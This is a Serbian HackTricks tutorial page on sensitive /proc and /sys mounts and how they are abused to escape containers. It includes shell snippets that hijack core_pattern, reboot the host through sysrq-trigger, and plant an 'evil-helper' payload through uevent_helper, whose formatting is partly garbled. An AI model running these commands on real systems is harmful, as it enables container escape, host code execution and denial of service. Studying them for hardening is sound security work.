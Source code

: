 # Osetljivi Montaži

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Izlaganje `/proc` i `/sys` bez odgovarajuće izolacije imenskog prostora uvodi značajne sigurnosne rizike, uključujući povećanje površine napada i otkrivanje informacija. Ovi direktorijumi sadrže osetljive datoteke koje, ako su pogrešno konfigurisane ili pristupljene od strane neovlašćenog korisnika, mogu dovesti do bekstva iz kontejnera, modifikacije domaćina ili pružanja informacija koje pomažu daljim napadima. Na primer, nepravilno montiranje `-v /proc:/host/proc` može zaobići AppArmor zaštitu zbog njegove putem zasnovane prirode, ostavljajući `/host/proc` nezaštićen.

**Možete pronaći dalje detalje o svakom potencijalnom propustu na** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Ranjivosti

### `/proc/sys`

Ovaj direktorijum dozvoljava pristup za modifikaciju kernel promenljivih, obično putem `sysctl(2)`, i sadrži nekoliko poddirektorijuma od interesa:

#### **`/proc/sys/kernel/core_pattern`**

* Opisan u [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Omogućava definisanje programa za izvršavanje prilikom generisanja core datoteke sa prvih 128 bajtova kao argumentima. Ovo može dovesti do izvršavanja koda ako datoteka počinje sa cev `|`.
*   **Primer testiranja i eksploatacije**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Testirajte pristup pisanju
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Postavite prilagođeni rukovalac
sleep 5 && ./crash & # Pokrenite rukovaoca
```

#### **`/proc/sys/kernel/modprobe`**

* Detaljno objašnjen u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Sadrži putanju do učitavača kernel modula, pozvanog za učitavanje kernel modula.
*   **Primer provere pristupa**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Provera pristupa modprobe-u
```

#### **`/proc/sys/vm/panic_on_oom`**

* Povezan u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Globalna oznaka koja kontroliše da li kernel pravi paniku ili poziva OOM ubijalicu kada se desi OOM uslov.

#### **`/proc/sys/fs`**

* Prema [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), sadrži opcije i informacije o fajl sistemu.
* Pristup pisanju može omogućiti različite napade uskraćivanjem usluga na domaćinu.

#### **`/proc/sys/fs/binfmt_misc`**

* Omogućava registrovanje interpretatora za ne-nativne binarne formate na osnovu njihovog magičnog broja.
* Može dovesti do eskalacije privilegija ili pristupa root shell-u ako je `/proc/sys/fs/binfmt_misc/register` za pisanje.
* Relevantan eksploatacioni primer i objašnjenje:
* [Rootkit preko binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Detaljan tutorijal: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Ostali u `/proc`

#### **`/proc/config.gz`**

* Može otkriti konfiguraciju kernela ako je `CONFIG_IKCONFIG_PROC` omogućen.
* Korisno za napadače da identifikuju ranjivosti u pokrenutom kernelu.

#### **`/proc/sysrq-trigger`**

* Omogućava pozivanje Sysrq komandi, potencijalno uzrokujući trenutne ponovne pokrete sistema ili druge kritične akcije.
*   **Primer ponovnog pokretanja domaćina**:

```bash
echo b > /proc/sysrq-trigger # Ponovno pokreće domaćina
```

#### **`/proc/kmsg`**

* Izlaže poruke kernel prstena.
* Može pomoći u eksploataciji kernela, otkrivanju adresa i pružanju osetljivih informacija o sistemu.

#### **`/proc/kallsyms`**

* Navodi izvožene simbole kernela i njihove adrese.
* Bitno za razvoj eksploatacije kernela, posebno za prevazilaženje KASLR-a.
* Informacije o adresi su ograničene sa `kptr_restrict` postavljenim na `1` ili `2`.
* Detalji u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfejs sa uređajem kernel memorije `/dev/mem`.
* Istoriski ranjiv na napade eskalacije privilegija.
* Više o [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Predstavlja fizičku memoriju sistema u ELF core formatu.
* Čitanje može otkriti sadržaj memorije domaćina i drugih kontejnera.
* Veličina datoteke može dovesti do problema sa čitanjem ili rušenjem softvera.
* Detaljna upotreba u [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternativni interfejs za `/dev/kmem`, predstavlja virtuelnu memoriju kernela.
* Omogućava čitanje i pisanje, stoga direktnu modifikaciju kernel memorije.

#### **`/proc/mem`**

* Alternativni interfejs za `/dev/mem`, predstavlja fizičku memoriju.
* Omogućava čitanje i pisanje, modifikacija sve memorije zahteva rešavanje virtuelnih u fizičke adrese.

#### **`/proc/sched_debug`**

* Vraća informacije o rasporedu procesa, zaobilazeći zaštitu PID imenskog prostora.
* Izlaže imena procesa, ID-ove i identifikatore cgroup-a.

#### **`/proc/[pid]/mountinfo`**

* Pruža informacije o tačkama montiranja u imenskom prostoru procesa.
* Izlaže lokaciju `rootfs` kontejnera ili slike.

### Ranjivosti `/sys`

#### **`/sys/kernel/uevent_helper`**

* Koristi se za rukovanje kernel uređajima `uevents`.
* Pisanje u `/sys/kernel/uevent_helper` može izvršiti proizvoljne skripte prilikom okidača `uevent`.
*   **Primer za eksploataciju**: %%%bash

### Kreira payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

### Pronalazi putanju domaćina iz OverlayFS montaže za kontejner

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

### Postavlja uevent\_helper na zlonamerni pomoćnik

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

### Okida uevent

echo change > /sys/class/mem/null/uevent

### Čita izlaz

cat /output %%%
#### **`/sys/class/thermal`**

* Kontroliše postavke temperature, potencijalno uzrokujući DoS napade ili fizičku štetu.

#### **`/sys/kernel/vmcoreinfo`**

* Otkriva adrese jezgra, potencijalno kompromitujući KASLR.

#### **`/sys/kernel/security`**

* Sadrži `securityfs` interfejs, omogućavajući konfigurisanje Linux Security Modula poput AppArmor-a.
* Pristup može omogućiti kontejneru da onemogući svoj MAC sistem.

#### **`/sys/firmware/efi/vars` i `/sys/firmware/efi/efivars`**

* Izlaže interfejse za interakciju sa EFI varijablama u NVRAM-u.
* Pogrešna konfiguracija ili eksploatacija može dovesti do oštećenja laptopova ili neupotrebljivih host mašina.

#### **`/sys/kernel/debug`**

* `debugfs` nudi "bez pravila" interfejs za debagovanje jezgra.
* Istorija sigurnosnih problema zbog njegove neograničene prirode.

### Reference

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili **telegram grupi** ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
